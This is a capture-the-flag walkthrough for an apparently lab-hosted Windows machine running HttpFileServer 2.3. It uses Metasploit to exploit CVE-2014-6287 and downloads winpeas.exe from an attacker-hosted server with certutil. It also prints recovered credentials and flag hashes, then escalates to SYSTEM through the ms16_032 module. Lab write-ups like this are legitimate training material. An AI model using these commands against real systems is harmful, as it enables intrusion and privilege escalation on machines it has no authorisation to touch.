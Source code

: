 We find a service running on port 80, `HttpFileServer version 2.3`
We find this common vulnerability, it takes advantage of the `findMacroMaker` function within `HttpFileServer version 2.3`

https://nvd.nist.gov/vuln/detail/CVE-2014-6287 - `CVE-2014-6287`

We run the exploit in Metasploit

```php
exploit/windows/http/rejetto_hfs_exec
```

We get a low user shell, we are able to find the user flag

```php
a589deb32b1b8f58a887b63e79e39066
```

I start up a web server to host the file for `winpeas.exe`, have our low level shell download and run it. 

```php
certutil -urlcache -split -f http://10.10.14.209:8080/winpeas.exe winpeas.exe
```

We get the default login for the user.

```php
kostas:kdeEjDowkS*
```

We background this process, its running as session 1. 

The default process is running the shell as `x32` architecture, its best to switch over to the `x64` process
Lets find the `explorer.exe` PID so we can migrate

```php
ps aux | grep explorer

PID   PPID  Name          Arch 
---   ----  ----          ---- 
2084  2076  explorer.exe  x64 
```

Okay time to migrate

```php
migrate 2084
```

There is a module to help us find a path towards privilege escalation 

```php
exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

We now have root on the machine

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

And finally here's the admin root flag

```php
4cfccb0e5e56aefb7ef5080c54bb266a
```


